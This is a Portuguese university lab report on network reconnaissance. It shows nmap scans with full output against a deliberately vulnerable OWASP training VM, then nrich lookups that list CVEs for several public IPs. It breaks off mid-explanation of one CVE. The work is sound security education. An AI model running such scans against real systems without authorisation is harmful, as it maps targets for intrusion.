\documentclass[12pt]{article}

\usepackage[T1]{fontenc}
\usepackage[a4paper, left=3cm, right=2cm, top=3cm, bottom=2cm]{geometry}
\usepackage[dvipsnames]{xcolor}
\usepackage[toc]{glossaries}
\usepackage{authblk}
\usepackage{cite}
\usepackage{etoolbox}
\usepackage{fontspec}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{relsize}
\usepackage{setspace}
\usepackage{subcaption}
\usepackage{verbatimbox}
\usepackage[english, portuguese]{babel}
    \addto\captionsportuguese{\renewcommand*\bibname{Referências}}
    \addto\captionsportuguese{\renewcommand*\contentsname{Sumário}}

\newcommand\myshade{85}
\newcommand{\pprime}{\ensuremath{^{\prime}}}
\newcommand{\RNum}[1]{\uppercase\expandafter{\romannumeral #1\relax}}
\renewcommand\Authsep{, }
\renewcommand\Authand{, }
\renewcommand\Authands{, e }
\providecommand{\keywords}[1]{%
  \small
  \textbf{\textit{\iflanguage{english}{Keywords}{Palavras-chave} ---}} #1%
}

\AtBeginEnvironment{quote}{\par\singlespacing\small}

\graphicspath{ {./figures/} }

\lstset{
  basicstyle=\small\ttfamily,
  columns=flexible,
  breaklines=true
}

\hypersetup{
    pdftitle   = {Trabalho Prático 1, Segurança da Informação e de Redes},
    pdfauthor  = {Pedro Santi Binotto, Cauã Pablo Padilha},
    pdfsubject = {Resumo em Português},
    linkcolor  = black,
    citecolor  = black,
    urlcolor   = black,
    colorlinks = true,
    filecolor  = black,
    linktoc    = page
}%

% \newglossaryentry{gls} {
%   name={GLS},
%   description={Glossary entry}
% }

\title{Trabalho Prático \RNum{1} \\ [0.2em]\smaller{}Segurança da Informação e de Redes}
\author[1]{Pedro Santi Binotto [20200634]\thanks{\texttt{pedro.binotto@grad.ufsc.br}}}
\author[2]{Cauã Pablo Padilha [22100895]\thanks{\texttt{padilha.caua@grad.ufsc.br}}}
\date{\today}
\affil[1]{Departamento de Informática e Estatística, Universidade Federal de Santa Catarina}

\makeglossaries

\begin{document}
\begin{titlepage}
\selectlanguage{portuguese} 
\maketitle
\thispagestyle{empty}

\begin{abstract}
  Relatório do primeiro trabalho prático da disciplina \textit{INE5680 --- Segurança da Informação e de Redes}, ministrada
  pela Professora Carla Merkle Westphall.
\end{abstract}

\end{titlepage}

\tableofcontents

\printglossary[title=Glossário, toctitle=Glossário]

\section{Esclarecimento}

\paragraph{}

Devido a dificuldades na instalação do \textit{ParrotOS} ocasionadas por falhas no servidor remoto, as atividades foram
realizadas em uma instalação do \textit{Ubuntu 24.04}.

\section{Desenvolvimento}

\subsection{Q1}

\paragraph{Proposta ---} enunciado na \textit{Questão 1}:

\begin{quote}
Execute os comandos abaixo em um terminal na máquina Parrot, copie e cole screenshots (pedaços) de telas obtidas na
  execução. Depois, explique brevemente os comandos e a saída obtida. 
  \begin{itemize}
    \item \texttt{sudo nmap -sT -sV -T4 -v 10.1.2.xx} (IP da máquina Owasp Broken, complete xx com o seu IP);
    \item \texttt{sudo nmap -T4 -A v -PE -PS22,25,80 -PA21,23,80,3389 –traceroute 10.1.2.xx} (IP da máquina Owasp
      Broken, complete xx com o seu IP);
  \end{itemize}
\end{quote}

\subsubsection{Solução --- \textbf{A}}

\paragraph{}Saída da execução (\texttt{stdout}):

\begin{figure}[h!]
\centerline{
\includegraphics[totalheight=1.5cm]{nmap-1.png}}
  \caption{Execução do comando}
  \label{fig:nmap2}
\end{figure}

\begin{lstlisting}
user@ubuntu-dotfiles$ ~ sudo nmap -sT -sV -T4 -v 10.1.2.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-04 23:56 UTC
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 23:56
Scanning 10.1.2.5 [1 port]
Completed ARP Ping Scan at 23:56, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:56
Completed Parallel DNS resolution of 1 host. at 23:56, 0.01s elapsed
Initiating Connect Scan at 23:56
Scanning 10.1.2.5 (10.1.2.5) [1000 ports]
Discovered open port 143/tcp on 10.1.2.5
Discovered open port 8080/tcp on 10.1.2.5
Discovered open port 80/tcp on 10.1.2.5
Discovered open port 22/tcp on 10.1.2.5
Discovered open port 139/tcp on 10.1.2.5
Discovered open port 445/tcp on 10.1.2.5
Discovered open port 443/tcp on 10.1.2.5
Discovered open port 8081/tcp on 10.1.2.5
Discovered open port 5001/tcp on 10.1.2.5
Completed Connect Scan at 23:56, 0.10s elapsed (1000 total ports)
Initiating Service scan at 23:56
Scanning 9 services on 10.1.2.5 (10.1.2.5)
Completed Service scan at 23:56, 11.02s elapsed (9 services on 1 host)
NSE: Script scanning 10.1.2.5.
Initiating NSE at 23:56
Completed NSE at 23:56, 0.09s elapsed
Initiating NSE at 23:56
Completed NSE at 23:56, 0.04s elapsed
Nmap scan report for 10.1.2.5 (10.1.2.5)
Host is up (0.00093s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 5.3p1 Debian 3ubuntu4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.2.14 ((Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14 OpenSSL...)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open  imap        Courier Imapd (released 2008)
443/tcp  open  ssl/https?
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5001/tcp open  java-object Java Object Serialization
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8081/tcp open  http        Jetty 6.1.25
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5001-TCP:V=7.94SVN%I=7%D=9/4%Time=68BA272F%P=x86_64-pc-linux-gnu%r(
SF:NULL,4,"\xac\xed\0\x05");
MAC Address: 08:00:27:19:8C:BF (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.60 seconds
           Raw packets sent: 1 (28B) | Rcvd: 1 (28B)
\end{lstlisting}

\paragraph{Explicação:}

O comando acima executa o programa nmap com permissão de super usuário do linux e passa o IP da máquina que deseja mapear a saída (OWASP Broken) além das seguintes flags:

\begin{itemize}
  \item \texttt{-sT}: para escanear usando uma conexão TCP (não necessita de privilégios);
  \item \texttt{-sV}: para detecção das versões dos programas que estão sendo utilizados nas portas abertas do IP alvo;
  \item \texttt{-T4}: para definir a velocidade de varredura para 4 (de uma escala de 0 a 5);
  \item \texttt{-v}: para ser um comando verboso (que imprime na tela a sua execução);
\end{itemize}

\paragraph{}

A saída do programa consiste em:

\begin{enumerate}
  \item Descoberta do host com a saída “Host is up”, indicando que o host está ativo;
  \item Endereço físico (MAC) da máquina alvo com a saída (08:00:27:19:8C:BF) e que a máquina pertence à Oracle VitualBox, indicando que é uma máquina virtual sendo executada no VirtualBox;
  \item Portas abertas, sendo varridas 1000 portas e tendo como resultado as portas abaixo (\texttt{PORT     STATE SERVICE     VERSION}):
  \begin{enumerate}
    \item \texttt{22/tcp   open  ssh         OpenSSH 5.3p1 Debian 3ubuntu4 (Ubuntu Linux; protocol 2.0)};
    \item \texttt{80/tcp   open  http        Apache httpd 2.2.14 ((Ubuntu) mod\_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with Suhosin-Patch proxy\_html/3.0.1 mod\_python/3.3.1 Python/2.6.5 mod\_ssl/2.2.14 OpenSSL...)};
    \item \texttt{139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)};
    \item \texttt{143/tcp  open  imap        Courier Imapd (released 2008)};
    \item \texttt{443/tcp  open  ssl/https?};
    \item \texttt{445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)};
    \item \texttt{5001/tcp open  java-object Java Object Serialization};
    \item \texttt{8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1};
    \item \texttt{8081/tcp open  http        Jetty 6.1.25};
  \end{enumerate}
\end{enumerate}

\subsubsection{Solução --- \textbf{B}}

\paragraph{}Saída da execução (\texttt{stdout}):

\begin{figure}[h!]
\centerline{
\includegraphics[totalheight=1.5cm]{nmap-2.png}}
  \caption{Execução do comando}
  \label{fig:nmap1}
\end{figure}

\begin{lstlisting}
user@ubuntu-dotfiles$ ~ sudo nmap -T4 -A -v -PE -PS22,25,80 -PA21,23,80,3389 -traceroute 10.1.2.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-05 00:32 UTC
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating ARP Ping Scan at 00:32
Scanning 10.1.2.5 [1 port]
Completed ARP Ping Scan at 00:32, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:32
Completed Parallel DNS resolution of 1 host. at 00:32, 0.01s elapsed
Initiating SYN Stealth Scan at 00:32
Scanning 10.1.2.5 (10.1.2.5) [1000 ports]
Discovered open port 139/tcp on 10.1.2.5
Discovered open port 8080/tcp on 10.1.2.5
Discovered open port 80/tcp on 10.1.2.5
Discovered open port 143/tcp on 10.1.2.5
Discovered open port 443/tcp on 10.1.2.5
Discovered open port 445/tcp on 10.1.2.5
Discovered open port 22/tcp on 10.1.2.5
Discovered open port 8081/tcp on 10.1.2.5
Discovered open port 5001/tcp on 10.1.2.5
Completed SYN Stealth Scan at 00:32, 0.08s elapsed (1000 total ports)
Initiating Service scan at 00:32
Scanning 9 services on 10.1.2.5 (10.1.2.5)
Completed Service scan at 00:32, 11.02s elapsed (9 services on 1 host)
Initiating OS detection (try #1) against 10.1.2.5 (10.1.2.5)
NSE: Script scanning 10.1.2.5.
Initiating NSE at 00:32
Completed NSE at 00:32, 5.38s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.10s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Nmap scan report for 10.1.2.5 (10.1.2.5)
Host is up (0.00056s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 5.3p1 Debian 3ubuntu4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 ea:83:1e:45:5a:a6:8c:43:1c:3c:e3:18:dd:fc:88:a5 (DSA)
|_  2048 3a:94:d8:3f:e0:a2:7a:b8:c3:94:d7:5e:00:55:0c:a7 (RSA)
80/tcp   open  http        Apache httpd 2.2.14 ((Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14 OpenSSL...)
|_http-favicon: Unknown favicon MD5: 1F8C0B08FB6B556A6587517A8D5F290B
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: owaspbwa OWASP Broken Web Applications
|_http-server-header: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14 OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open  imap        Courier Imapd (released 2008)
|_imap-capabilities: ACL2=UNIONA0001 QUOTA completed CAPABILITY CHILDREN OK IMAP4rev1 SORT IDLE THREAD=ORDEREDSUBJECT NAMESPACE THREAD=REFERENCES ACL UIDPLUS
443/tcp  open  ssl/https?
|_ssl-date: 2025-09-05T00:32:41+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=owaspbwa
| Issuer: commonName=owaspbwa
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2013-01-02T21:12:38
| Not valid after:  2022-12-31T21:12:38
| MD5:   0fb9:ca0b:e9b7:b26f:de6c:3555:6186:2399
|_SHA-1: e469:e1f2:9877:40c3:3aec:ee7c:f630:ca19:31be:05ae
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5001/tcp open  java-object Java Object Serialization
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Site doesn't have a title.
|_http-server-header: Apache-Coyote/1.1
8081/tcp open  http        Jetty 6.1.25
| http-methods: 
|   Supported Methods: GET HEAD POST TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Choose Your Path
|_http-server-header: Jetty(6.1.25)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5001-TCP:V=7.94SVN%I=7%D=9/5%Time=68BA2F9F%P=x86_64-pc-linux-gnu%r(
SF:NULL,4,"\xac\xed\0\x05");
MAC Address: 08:00:27:19:8C:BF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.17 - 2.6.36
Uptime guess: 0.025 days (since Thu Sep  4 23:57:05 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=199 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: OWASPBWA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   OWASPBWA<00>         Flags: <unique><active>
|   OWASPBWA<03>         Flags: <unique><active>
|   OWASPBWA<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms 10.1.2.5 (10.1.2.5)

NSE: Script Post-scanning.
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.00s elapsed
Initiating NSE at 00:32
Completed NSE at 00:32, 0.01s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.28 seconds
           Raw packets sent: 1020 (45.626KB) | Rcvd: 1016 (41.374KB)
\end{lstlisting}

\paragraph{Explicação:}

O comando em questão executa o programa \texttt{nmap} com permissão de super usuário do linux e passa o IP da máquina que deseja mapear a saída (OWASP Broken) além das seguintes flags:

\begin{enumerate}
  \item \texttt{-T4}: para definir a velocidade de varredura para 4 (de uma escala de 0 a 5);
  \item \texttt{-A}: habilita um conjunto de varreduras agressivas que consite em:
  \begin{itemize}
    \item Detecção do Sistema Operacional;
    \item Detecção de versão do serviço;
    \item Varredura de scripts padrão;
    \item Varredura de \textit{traceroute};
  \end{itemize}
  \item \texttt{v}:  para ser um comando verboso (que imprime na tela a sua execução);
  \item \texttt{PE}:  habilita a varredura de ping enviando um pacote ICMP Echo para verificar se o host está online;
  \item \texttt{PS22,25,80}:  envia pacotes TCP SYN para as portas 22, 25, 80;
  \item \texttt{PA21,23,80,3389}:  envia pacotes TCP ACK para as portas 21, 23, 80, 3389 para verificar se essas portas estão abertas ou
  filtradas;
  \item \texttt{traceroute}:  mapeia o caminho da rede até o host alvo, identificando os roteadores pelo caminho entre o host de
  “ataque” e o host alvo; 
\end{enumerate}

\paragraph{}
A saída do comando é, em partes, similar ao do primeiro comando, detectando o host e se este está ativo, além do sistema operacional em que está sendo executado e as portas que estão abertas e os serviços que executam, tendo como diferença:
\begin{itemize}
  \item Kernel Linux estimado pelo \texttt{nmap}, no caso da série 2.6, mais especificamente uma versão entre 2.6.17 e 2.6.36;
  \item \textit{Host keys} usadas pelo serviço \texttt{OpenSSH} na porta 22, ou seja as chaves públicas usadas pelo servidor para
    criptografia;
  \item Módulos do Apache usadas pelo serviço do Apache \textit{HTTPD} e o título de uma página Web;
  \item Certificado \textit{SSL} usado na porta 443 (HTTPS) é autoassinado e tem como nome de domínio \texttt{owaspbwa}, além de sua
    validade;
  \item Rastreamento da rota, indicando que foi necessário somente um pulo (hop), indicando que a máquina alvo está na
    mesma sub-rede da máquina “atacante” (devido as duas serem VMs rodando em uma mesma rede);
\end{itemize}

\subsection{Q2}

\paragraph{Proposta ---} enunciado na \textit{Questão 2}:

\begin{quote}
  Questão 2. Instale a ferramenta nrich (\texttt{https://gitlab.com/shodan-public/nrich}). Crie um arquivo chamado
  \texttt{ip.txt} e coloque dentro do arquivo o IP do site \texttt{scanme.org} (45.33.32.156), o IP do
  \texttt{idufsc.ufsc.br} (150.162.2.173) e os IPs 85.64.135.163 e 58.229.240.18 (listados em
  \texttt{https://www.opendbl.net/lists/etknown.list}). Depois, use o comando: \texttt{nrich --output shell ip.txt}. Você pode testar outros IPs também. 
  \begin{itemize}
    \item Copie e cole screenshots (pedaços) de telas obtidas na execução do comando;
    \item Explique brevemente o comando e a saída obtida. 
    \item Explique uma das CVEs listadas;
  \end{itemize}
\end{quote}

\paragraph{}Saída da execução (\texttt{stdout}):

\begin{lstlisting}
user@ubuntu-dotfiles$ ~ nrich --output shell ip.txt
58.229.240.18 (mlink.kdjsystem.co.kr)
  Ports: 21, 22, 80, 8000, 8080, 8090, 8443, 9443
  Tags: self-signed
  CPEs: cpe:/o:debian:debian_linux, cpe:/a:gunicorn:gunicorn, cpe:/a:openbsd:openssh:6.0p1, cpe:/o:linux:linux_kernel, cpe:/a:f5:nginx:1.28.0, cpe:/a:apache:http_server:2.4.29, cpe:/a:python:python
  Vulnerabilities: CVE-2018-1303, CVE-2013-2765, CVE-2022-37436, CVE-2019-17567, CVE-2022-28614, CVE-2020-13938, CVE-2020-9490, CVE-2022-28330, CVE-2021-44790, CVE-2021-40438, CVE-2021-34798, CVE-2019-0217, CVE-2024-43394, CVE-2018-17199, CVE-2021-44224, CVE-2012-4360, CVE-2024-40898, CVE-2019-10092, CVE-2021-39275, CVE-2022-22720, CVE-2013-4365, CVE-2024-38476, CVE-2018-11763, CVE-2020-1927, CVE-2022-22721, CVE-2019-10082, CVE-2020-11993, CVE-2017-15715, CVE-2019-0211, CVE-2012-4001, CVE-2009-0796, CVE-2011-1176, CVE-2021-32791, CVE-2023-45802, CVE-2011-2688, CVE-2024-38474, CVE-2021-32785, CVE-2018-1302, CVE-2019-10081, CVE-2023-31122, CVE-2024-38473, CVE-2012-3526, CVE-2024-39573, CVE-2024-47252, CVE-2019-0220, CVE-2021-32786, CVE-2022-28615, CVE-2025-49630, CVE-2023-25690, CVE-2021-26690, CVE-2024-38475, CVE-2018-1333, CVE-2006-20001, CVE-2017-15710, CVE-2025-49812, CVE-2007-4723, CVE-2022-31813, CVE-2024-27316, CVE-2021-26691, CVE-2018-17189, CVE-2024-38472, CVE-2019-9517, CVE-2023-38709, CVE-2021-32792, CVE-2020-1934, CVE-2024-43204, CVE-2018-1301, CVE-2013-0941, CVE-2021-33193, CVE-2024-24795, CVE-2024-42516, CVE-2022-29404, CVE-2009-2299, CVE-2018-1312, CVE-2022-23943, CVE-2013-0942, CVE-2022-30556, CVE-2019-10098, CVE-2022-26377, CVE-2022-22719, CVE-2024-38477, CVE-2022-36760, CVE-2019-0196, CVE-2018-1283, CVE-2020-35452, CVE-2025-53020

85.64.135.163 (85.64.135.163.dynamic.barak-online.net)
  Ports: 22
  CPEs: cpe:/a:openbsd:openssh:5.3
  Vulnerabilities: CVE-2016-1908, CVE-2016-10708, CVE-2016-0777, CVE-2019-6109, CVE-2017-15906, CVE-2019-6110, CVE-2020-15778, CVE-2010-5107, CVE-2010-4755, CVE-2014-2532, CVE-2023-51767, CVE-2008-3844, CVE-2015-6564, CVE-2016-20012, CVE-2015-5352, CVE-2011-5000, CVE-2011-4327, CVE-2014-1692, CVE-2016-10010, CVE-2016-3115, CVE-2014-2653, CVE-2007-2768, CVE-2015-6563, CVE-2023-51385, CVE-2018-20685, CVE-2016-10009, CVE-2015-5600, CVE-2023-48795, CVE-2021-36368, CVE-2019-6111, CVE-2023-38408, CVE-2018-15473, CVE-2016-10011, CVE-2010-4478, CVE-2016-10012, CVE-2012-0814

45.33.32.156 (scanme.nmap.org)
  Ports: 22, 80, 123, 9929, 31337
  Tags: cloud
  CPEs: cpe:/a:openbsd:openssh:6.6.1p1, cpe:/a:apache:http_server:2.4.7, cpe:/o:canonical:ubuntu_linux
  Vulnerabilities: CVE-2020-13938, CVE-2014-0226, CVE-2022-31813, CVE-2014-3523, CVE-2021-40438, CVE-2022-23943, CVE-2018-1303, CVE-2011-2688, CVE-2024-38472, CVE-2024-47252, CVE-2015-3185, CVE-2017-7679, CVE-2015-3183, CVE-2021-26690, CVE-2019-10092, CVE-2019-10098, CVE-2014-0117, CVE-2013-0942, CVE-2015-0228, CVE-2016-8743, CVE-2017-9798, CVE-2025-49812, CVE-2022-28615, CVE-2021-32792, CVE-2020-11985, CVE-2013-5704, CVE-2013-6438, CVE-2007-4723, CVE-2016-5387, CVE-2021-44790, CVE-2006-20001, CVE-2018-17199, CVE-2013-0941, CVE-2024-24795, CVE-2023-31122, CVE-2022-29404, CVE-2024-40898, CVE-2019-0220, CVE-2014-0118, CVE-2013-2765, CVE-2024-38477, CVE-2020-35452, CVE-2009-0796, CVE-2024-38476, CVE-2012-3526, CVE-2012-4001, CVE-2022-30556, CVE-2021-39275, CVE-2021-26691, CVE-2024-43204, CVE-2020-1934, CVE-2016-2161, CVE-2024-38474, CVE-2022-22721, CVE-2014-0231, CVE-2022-22719, CVE-2024-38473, CVE-2021-32791, CVE-2013-4365, CVE-2011-1176, CVE-2018-1312, CVE-2018-1302, CVE-2020-1927, CVE-2021-32785, CVE-2023-25690, CVE-2022-28330, CVE-2014-8109, CVE-2018-1283, CVE-2021-44224, CVE-2022-37436, CVE-2017-9788, CVE-2021-34798, CVE-2017-15715, CVE-2019-17567, CVE-2017-15710, CVE-2024-39573, CVE-2024-42516, CVE-2016-4975, CVE-2016-0736, CVE-2019-0217, CVE-2023-38709, CVE-2022-26377, CVE-2009-2299, CVE-2022-22720, CVE-2022-28614, CVE-2016-8612, CVE-2022-36760, CVE-2024-43394, CVE-2014-3581, CVE-2021-32786, CVE-2017-3167, CVE-2012-4360, CVE-2014-0098, CVE-2018-1301, CVE-2015-3184, CVE-2024-38475
\end{lstlisting}

\subsubsection{Solução --- \textbf{A}}

\begin{figure}[h!]
\centerline{
\includegraphics[totalheight=1.5cm]{nrich.png}}
  \caption{Execução do comando}
  \label{fig:nrich}
\end{figure}

\subsubsection{Solução --- \textbf{B}}

\paragraph{}

O comando acima usa o programa nrich para integrar com dados de vulnerabilidades para os IPs enviados no
\texttt{ips.txt}. Além disso, define o output como \textit{shell}, tornando mais fácil a leitura e pronto para ser
integrado a outras automações possíveis usando \textit{bash}.


\subsubsection{Solução --- \textbf{C}}

\paragraph{}

Na saída do comando foram listados diversas CVEs para três dos quatro IPs colocados no arquivo \textit{txt}, sendo elas:

\begin{itemize}
  \item \textbf{\texttt{58.229.240.18 (mlink.kdjsystem.co.kr)}:} \texttt{Vulnerabilities: CVE-2018-1303, CVE-2013-2765, CVE-2022-37436, CVE-2019-17567, CVE-2022-28614, CVE-2020-13938, CVE-2020-9490, CVE-2022-28330, CVE-2021-44790, CVE-2021-40438, CVE-2021-34798, CVE-2019-0217, CVE-2024-43394, CVE-2018-17199, CVE-2021-44224, CVE-2012-4360, CVE-2024-40898, CVE-2019-10092, CVE-2021-39275, CVE-2022-22720, CVE-2013-4365, CVE-2024-38476, CVE-2018-11763, CVE-2020-1927, CVE-2022-22721, CVE-2019-10082, CVE-2020-11993, CVE-2017-15715, CVE-2019-0211, CVE-2012-4001, CVE-2009-0796, CVE-2011-1176, CVE-2021-32791, CVE-2023-45802, CVE-2011-2688, CVE-2024-38474, CVE-2021-32785, CVE-2018-1302, CVE-2019-10081, CVE-2023-31122, CVE-2024-38473, CVE-2012-3526, CVE-2024-39573, CVE-2024-47252, CVE-2019-0220, CVE-2021-32786, CVE-2022-28615, CVE-2025-49630, CVE-2023-25690, CVE-2021-26690, CVE-2024-38475, CVE-2018-1333, CVE-2006-20001, CVE-2017-15710, CVE-2025-49812, CVE-2007-4723, CVE-2022-31813, CVE-2024-27316, CVE-2021-26691, CVE-2018-17189, CVE-2024-38472, CVE-2019-9517, CVE-2023-38709, CVE-2021-32792, CVE-2020-1934, CVE-2024-43204, CVE-2018-1301, CVE-2013-0941, CVE-2021-33193, CVE-2024-24795, CVE-2024-42516, CVE-2022-29404, CVE-2009-2299, CVE-2018-1312, CVE-2022-23943, CVE-2013-0942, CVE-2022-30556, CVE-2019-10098, CVE-2022-26377, CVE-2022-22719, CVE-2024-38477, CVE-2022-36760, CVE-2019-0196, CVE-2018-1283, CVE-2020-35452, CVE-2025-53020};
  \item \textbf{\texttt{85.64.135.163 (85.64.135.163.dynamic.barak-online.net)}:} \texttt{Vulnerabilities: CVE-2016-1908, CVE-2016-10708, CVE-2016-0777, CVE-2019-6109, CVE-2017-15906, CVE-2019-6110, CVE-2020-15778, CVE-2010-5107, CVE-2010-4755, CVE-2014-2532, CVE-2023-51767, CVE-2008-3844, CVE-2015-6564, CVE-2016-20012, CVE-2015-5352, CVE-2011-5000, CVE-2011-4327, CVE-2014-1692, CVE-2016-10010, CVE-2016-3115, CVE-2014-2653, CVE-2007-2768, CVE-2015-6563, CVE-2023-51385, CVE-2018-20685, CVE-2016-10009, CVE-2015-5600, CVE-2023-48795, CVE-2021-36368, CVE-2019-6111, CVE-2023-38408, CVE-2018-15473, CVE-2016-10011, CVE-2010-4478, CVE-2016-10012, CVE-2012-0814};
  \item \textbf{\texttt{45.33.32.156 (scanme.nmap.org)}:} \texttt{Vulnerabilities: CVE-2020-13938, CVE-2014-0226, CVE-2022-31813, CVE-2014-3523, CVE-2021-40438, CVE-2022-23943, CVE-2018-1303, CVE-2011-2688, CVE-2024-38472, CVE-2024-47252, CVE-2015-3185, CVE-2017-7679, CVE-2015-3183, CVE-2021-26690, CVE-2019-10092, CVE-2019-10098, CVE-2014-0117, CVE-2013-0942, CVE-2015-0228, CVE-2016-8743, CVE-2017-9798, CVE-2025-49812, CVE-2022-28615, CVE-2021-32792, CVE-2020-11985, CVE-2013-5704, CVE-2013-6438, CVE-2007-4723, CVE-2016-5387, CVE-2021-44790, CVE-2006-20001, CVE-2018-17199, CVE-2013-0941, CVE-2024-24795, CVE-2023-31122, CVE-2022-29404, CVE-2024-40898, CVE-2019-0220, CVE-2014-0118, CVE-2013-2765, CVE-2024-38477, CVE-2020-35452, CVE-2009-0796, CVE-2024-38476, CVE-2012-3526, CVE-2012-4001, CVE-2022-30556, CVE-2021-39275, CVE-2021-26691, CVE-2024-43204, CVE-2020-1934, CVE-2016-2161, CVE-2024-38474, CVE-2022-22721, CVE-2014-0231, CVE-2022-22719, CVE-2024-38473, CVE-2021-32791, CVE-2013-4365, CVE-2011-1176, CVE-2018-1312, CVE-2018-1302, CVE-2020-1927, CVE-2021-32785, CVE-2023-25690, CVE-2022-28330, CVE-2014-8109, CVE-2018-1283, CVE-2021-44224, CVE-2022-37436, CVE-2017-9788, CVE-2021-34798, CVE-2017-15715, CVE-2019-17567, CVE-2017-15710, CVE-2024-39573, CVE-2024-42516, CVE-2016-4975, CVE-2016-0736, CVE-2019-0217, CVE-2023-38709, CVE-2022-26377, CVE-2009-2299, CVE-2022-22720, CVE-2022-28614, CVE-2016-8612, CVE-2022-36760, CVE-2024-43394, CVE-2014-3581, CVE-2021-32786, CVE-2017-3167, CVE-2012-4360, CVE-2014-0098, CVE-2018-1301, CVE-2015-3184, CVE-2024-38475};
\end{itemize}

\paragraph{}

A CVE-2025-49630 trata-se de uma vulnerabilidade relacionada a um ataque de negação de serviço (DoS) contra o servidor
Apache HTTP entre as versões 2.4.26 até 2.4.63 que pode ser feito por clients não confiáveis causando uma assertion no
